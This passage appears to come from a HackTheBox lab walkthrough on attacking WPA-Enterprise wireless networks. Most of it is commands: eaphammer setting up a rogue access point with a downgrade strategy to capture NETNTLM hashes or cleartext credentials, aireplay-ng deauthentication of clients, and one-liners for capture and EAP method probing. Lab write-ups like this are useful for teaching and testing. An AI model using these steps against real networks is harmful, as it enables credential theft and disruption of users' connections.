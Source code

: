
### 5) Attack Path B – eaphammer (automated)

#### 5.1 Create certs via wizard

```bash
$ /opt/eaphammer/eaphammer --cert-wizard
```

#### 5.2 Start rogue AP with downgrade strategy

```bash
$ /opt/eaphammer/eaphammer \
  --interface wlan1 \
  --negotiate balanced \
  --auth wpa-eap \
  --essid HTB-Corp \
  --creds
```

- `--negotiate balanced` tries GTC first, then falls back to stronger methods quickly.
    
- If needed, escalate to `--negotiate weakest`.
    

Deauthenticate clients if they don’t roam:

```bash
$ sudo aireplay-ng -0 3 -a 9C:9A:03:39:BD:7A -c 16:C5:68:79:A8:12 wlan0mon
```

**Outputs to expect:**

- First attempt may yield **NETNTLM** (MSCHAPv2) challenge/response lines (hash formats for John/Hashcat).
    
- Subsequent negotiation to **GTC** can reveal **cleartext** credentials.
    

---

## Reference Tables & Snippets

### Minimal Filters / Finds

- Wireshark EAP identity: `eap` → **Response, Identity** frame (e.g., `HTB\Sentinal`).
    
- Handshake/EAPOL only: `eapol`
    

### Common Commands (one‑liners)

```bash
# Fast scan + write capture
airodump-ng wlan0mon -c 1 -w WPA

# Deauth (target AP + STA)
aireplay-ng -0 3 -a <AP_BSSID> -c <STA_MAC> wlan0mon

# EAP method probe
eap_buster.sh <ESSID> '<DOMAIN\User>' wlan0mon
```
